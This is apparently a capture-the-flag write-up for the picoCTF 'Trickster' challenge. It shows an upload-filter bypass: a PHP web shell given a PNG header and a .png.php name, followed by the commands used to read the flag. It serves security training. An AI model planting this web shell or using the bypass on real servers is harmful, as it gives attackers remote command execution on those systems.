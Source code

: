 # Trickster
### Description
I found a web app that can help process images: PNG

# solution
- create a file with name  (untitle.png.php)
- edit this file
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- upload this png file and type `http://atlas.picoctf.net:58157/uploads/untitled.png.php`
- RUN
```
ls -al
ls -al /var/www/html
cat /var/www/html/GAZWIMLEGU2DQ.txt
```
